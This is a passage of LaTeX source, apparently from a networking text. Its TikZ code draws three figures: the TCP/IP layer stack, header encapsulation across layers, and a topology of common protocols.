			
\begin{tikzpicture}
			
			\draw (-1.6,0) node[xshift=0cm,yshift=0.3cm,text width=0.7cm, align=right] {Layer\\Number};
			\draw[<-,line width=0.5mm,fill=black] (-0.2,0.6) -- (-0.2,-7.2);
			
			
			\draw (-0.5,-0.75) node[xshift=-0.1cm]{\color{red} 4};
			\draw (-0.5,-2.45) node[xshift=-0.1cm]{\color{red} 3};
			\draw (-0.5,-4.15) node[xshift=-0.1cm]{\color{red} 2};
			\draw (-0.5,-5.85) node[xshift=-0.1cm]{\color{red} 1};
			
			%First Row
			\draw (0,0) rectangle node[text width=9.5cm, align=center]{Application\\\footnotesize Consists of applications that use the network} (9.5,-1.5);
			
			%Second Row
			\draw (0,-1.7) rectangle node[text width=9.5cm,align=center]{Transport\\\footnotesize Provides end-to-end data delivery} (9.5,-3.2);
			
			%Third Row
			\draw (0,-3.4) rectangle node[text width=9.5cm, align=center]{Network/Internet Layer\\\footnotesize Defines datagrams handles routing of data} (9.5,-4.9);
			
			%Fourth Row
			\draw (0,-5.1) rectangle node[text width=9.5cm,align=center]{Physical/Data Link/Network Access Layer\\\footnotesize Consists of routines for accessing physical media} (9.5,-6.6);
			\end{tikzpicture}
			\caption{TCP/IP Stack}
				\label{fig:TCPIPStack}
			\end{figure}
			\noindent As data is transmitted from the higher layers to the network access layer for transmission to other systems, data is encapsulated at every other layer. Likewise, when data is passed onto the higher layers, the encapsulation is stripped. This illustration is provided in the following figure.
			\begin{figure}[H]
		\centering
		\tikzset{>=stealth'}
		
\begin{tikzpicture}
		%First Row
		\draw (0,-0.5) node{Application Layer};
		\draw[fill=blue!5] (9,0) rectangle node{Data} (10.5,-1);
		%Second Row
		\draw (0,-1.7) node{Transport Layer};
		\draw[fill=blue!5] (7.5,-1.2) rectangle node{Header} (9,-2.2);
		\draw[fill=red!10] (9,-1.2) rectangle node{Data} (10.5,-2.2);
		%Third Row
		\draw (0,-2.9) node{Network Layer};
		\draw[fill=blue!5] (6,-2.4) rectangle node{Header} (7.5,-3.4);
		\draw[fill=red!10] (7.5,-2.4) rectangle node{Header} (9,-3.4);
		\draw[fill=red!10] (9,-2.4) rectangle node{Data} (10.5,-3.4);
		%Fourth Row
		\draw (0,-4.1) node{Network Access Layer};
		\draw[fill=blue!5] (4.5,-3.6) rectangle node{Header} (6,-4.6);
		\draw[fill=red!10] (6,-3.6) rectangle node{Header} (7.5,-4.6);
		\draw[fill=red!10] (7.5,-3.6) rectangle node{Header} (9,-4.6);
		\draw[fill=red!10] (9,-3.6) rectangle node{Data} (10.5,-4.6);
		
		\draw[<->,line width=0.2mm, bend left](10.5,-0.6) to (10.5,-1.6);
		\draw[<->,line width=0.2mm, bend left](10.5,-1.8) to (10.5,-2.8);
		\draw[<->,line width=0.2mm, bend left](10.5,-3) to (10.5,-4);
		
		\end{tikzpicture}
		\caption{TCP/IP Encapsulation}
			\label{fig:TCPIPEncase}
		\end{figure}
		\noindent How various protocols interact with each other in the TCP/IP stack allows any type of program to transmit data across the internet. These protocols have been grouped into a topological diagram for easier reference in the figure below.
		\begin{figure}[H]
				\centering
				\tikzset{>=stealth'}
				
\begin{tikzpicture}
				%First Row
				\draw (-2,-0.5) node[align=left]{Application};
				\draw (1.4,-0.5)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize HTTP};
				\draw (3.3,-0.5)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize Telnet};
				\draw (4.99,-0.5)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize FTP};
				
				\draw (7.1,-0.5)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize SNMP};
				\draw (8.8,-0.5)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize NFS};
				\draw (10.45,-0.5)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize TFTP};
				
				%Second Row
				\draw (-2.13,-1.7) node{Transport};
				\draw (3.3,-1.7)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize TCP};
				\draw (8.8,-1.7)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize UDP};

				%Third Row
				\draw (-2.26,-2.9) node{Network};
				\draw (6.05,-2.9)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize IP};
				\draw (8.8,-2.9)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize ICMP};
				
				
				%Fourth Row
				\draw (-1.61,-4.1) node{Network Access};
				\draw (6.05,-4.1)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize MAC Driver};
				\draw (3.1,-4.1)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize ARP};
				\draw (6.05,-5.5)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize NIC};
				\draw (9.12,-4.1)node[ellipse, minimum height=0.5cm,minimum width=0.8cm,draw] {\footnotesize RARP};
				
				\draw[line width=0.2mm,blue!70](-3.4,-1.1)--(11.55,-1.1);
				\draw[line width=0.2mm,blue!70](-3.4,-2.3)--(11.55,-2.3);
				\draw[line width=0.2mm,blue!70](-3.4,-3.5)--(11.55,-3.5);
				
				\draw[<->,line width=0.3mm](1.4,-0.88)--(2.82,-1.44);
				\draw[<->,line width=0.3mm](3.3,-0.85)--(3.3,-1.36);
				\draw[<->,line width=0.3mm](5.1,-0.88)--(3.78,-1.44);
				
				\draw[<->,line width=0.3mm](6.9,-0.88)--(8.32,-1.44);
				\draw[<->,line width=0.3mm](8.8,-0.85)--(8.8,-1.36);
				\draw[<->,line width=0.3mm](10.6,-0.88)--(9.28,-1.44);
				
				\draw[<->,line width=0.3mm](3.3,-2.05)--(5.73,-2.65);
				\draw[<->,line width=0.3mm](8.8,-2.05)--(6.37,-2.65);
				
				\draw[<->,line width=0.3mm](6.49,-2.9)--(7.95,-2.9);
				
				\draw[<->,line width=0.3mm](6.05,-3.26)--(6.05,-3.75);
				
				\draw[<->,line width=0.3mm](3.8,-4.1)--(4.51,-4.1);
				\draw[<->,line width=0.3mm](7.57,-4.1)--(8.24,-4.1);
				
				\draw[<->,line width=0.3mm](6.05,-4.45)--(6.05,-5.15);
				
				\draw[<->,line width=0.3mm](3.1,-5.5)--(5.42,-5.5);
				\draw(2.42,-5.47) node{Packet};
				
				\end{tikzpicture}
				\caption{Protocol Topology}
					\label{fig:TCPIPTree}
				\end{figure}
\end{document}